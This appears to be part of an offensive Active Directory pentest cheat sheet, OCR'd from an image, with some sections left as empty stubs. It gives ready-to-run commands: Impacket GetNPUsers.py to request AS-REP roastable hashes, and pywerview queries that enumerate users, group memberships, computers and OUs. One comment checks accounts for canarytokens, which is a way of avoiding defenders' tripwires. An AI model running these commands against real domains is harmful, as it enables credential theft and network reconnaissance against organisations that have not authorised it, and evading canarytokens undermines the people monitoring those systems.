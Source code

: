 #### <a name='shoot-npusers'></a>shoot-npusers
```
# https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py
GetNPUsers.py $zdom_fqdn/$ztarg_user_name:$ztarg_user_pass -dc-ip $zdom_dc_ip -request >> np_users.txt 
```

#### <a name='shoot-dacl'></a>shoot-dacl
```sh
# STEP 1: global gathering
```

#### <a name='shoot-gpos'></a>shoot-gpos
```
```

## <a name='iter'></a>iter

### <a name='iter-memberof'></a>iter-memberof
User groups:
```bash
# Get user info
ztarg_user_next=""
ztarg_computer=""
date_now=$(date "+%F-%H%M")
pywerview.py get-netuser -w $zdom_fqdn -u $ztarg_user_name -p $ztarg_user_pass --dc-ip $zdom_dc_ip --username $ztarg_user_next > $zcase"_getnetuser_"$ztarg_user_next".txt"
pywerview.py get-netuser -w $zdom_fqdn -u $ztarg_user_name -p $ztarg_user_pass --dc-ip $zdom_dc_ip --username $ztarg_user_next > $zcase"_getnetuser_"$ztarg_user_next"_"$ztarg_computer"_"$date_now".txt"

# Get user info + canarytoken check
# select cn, whenCreated, accountExpires, pwdLastSet, lastLogon, logonCount, badPasswordTime, badPwdCount
egrep -i  "^(cn|whenCreated|accountExpires|pwdLastSet|lastLogon|logonCount|badPasswordTime|badPwdCount)" $zcase"_"$ztarg_computer"_"$ztarg_user_next".txt"

# Get user memberof info
pywerview.py get-netgroup -w $zdom_fqdn -u $ztarg_user_name -p $ztarg_user_pass --dc-ip $zdom_dc_ip --username XXX | grep -v "^$" | cut -f2 -d" "  > $zcase"_getnetgroup_xxx.txt"

# Get the machine's full-data
pywerview.py get-netcomputer -w $zdom_fqdn -u $ztarg_user_name -p $ztarg_user_pass --dc-ip $zdom_dc_ip --computername XXX --full-data > $zcase"_getnetcomputer_xxx.txt"

# Get the machines based on an adspath / OU
ztarg_ou = "OU=Workstations,DC=CONTOSO,DC=COM"
ztarg_adspath = "ldap://" + $ztarg_ou
pywerview.py get-netcomputer -w $zdom_fqdn -u $ztarg_user_name -p $ztarg_user_pass -a $ztarg_adspath --dc-ip $zdom_dc_ip | grep -v "^$" | cut -f2 -d" " > $zcase"_getnetcomputer_ou_x.txt"
```
